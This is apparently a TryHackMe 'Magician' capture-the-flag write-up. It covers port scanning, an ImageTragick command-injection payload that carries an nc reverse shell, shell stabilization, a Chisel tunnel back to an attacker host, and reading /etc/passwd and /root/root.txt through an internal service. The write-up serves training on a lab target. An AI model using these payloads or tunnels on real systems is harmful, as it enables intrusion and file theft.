

# TryHackMe – Magician Writeup

**IP:** 10.49.187.54

---

## Overview

In this room, we gain initial access by exploiting an **ImageMagick (ImageTragick) RCE vulnerability** through an image upload functionality.

After getting a shell, we enumerate the system and discover a **service running locally**. Using **port forwarding with Chisel**, we access the internal service and retrieve the root flag, which is protected using a **Vigenère cipher**.

---

## Enumeration

As always, the first step was port scanning.

### Nmap Scan

```bash
nmap -T5 -sV -sC magician
```

### Results

```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
```

From the scan, the interesting services were:

- **FTP (21)** – allows anonymous login
- **HTTP Proxy (8080)** – returns JSON errors
- **HTTP (8081)** – web application titled *magician*

I added the target to `/etc/hosts` for easier access:

```bash
10.49.187.54 magician
```

---

## Web Enumeration

### Port 8081 – Image Conversion Service

Visiting:

```
http://magician:8081/
```

The page allows users to **upload PNG images and convert them to JPG**.

This immediately hinted at **ImageMagick** being used in the backend.



### Port 8080

```
http://magician:8080/
```

This endpoint only returned API-style JSON errors and didn’t expose anything directly useful.


---

## FTP Enumeration

Anonymous FTP login was enabled:

```bash
ftp magician
```

No useful files were found, but this confirmed a weak service configuration and reinforced the idea that the main attack surface was the web app.


---

## Initial Exploitation – ImageMagick RCE

After some research, I confirmed the application was vulnerable to **ImageTragick**, a known **command injection vulnerability in ImageMagick**.

The vulnerability allows execution of arbitrary commands by crafting a malicious image file.

### Payload Used

I used a known working payload from *PayloadsAllTheThings* and modified it for a reverse shell.

```bash
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc 127.0.0.1 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
pop graphic-context
```

I saved this as a **PNG file** and uploaded it through the image upload form.


### Listener

```bash
nc -lvnp 4444
```

Once the image was processed, I received a **reverse shell**.

---

## Shell Stabilization

To make the shell usable, I stabilized it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then:

- Press `Ctrl + Z`
- Run:

```bash
stty raw -echo && fg
export TERM=xterm-color
```

Now the shell behaved like a proper TTY.

---

## User Flag

After gaining shell access, I was able to locate and read the user flag:

```bash
cat user.txt
```

---

## Privilege Escalation – Internal Service Discovery

Running a listening services check:

```bash
netstat -plant
```

This revealed a **service listening locally on port 6666**, not accessible externally.

This was a strong hint that **port forwarding** was required.

---

## Port Forwarding with Chisel

### On Attacker Machine

```bash
./chisel server  --reverse --port 9001
```

### On Target Machine

```bash
./chisel client <ATTACKER-IP>:9001 R:3333:127.0.0.1:6666
```

This forwarded the internal service to my local machine.

---

## Accessing Internal Service

Opening the forwarded service:

```
http://127.0.0.1:3333
```


The page allowed reading files from the system.

Testing with:

```
/etc/passwd
```

The file was readable.

Next, I tried:

```
/root/root.txt
```

The output was in binary format, so I converted it to normal text.

---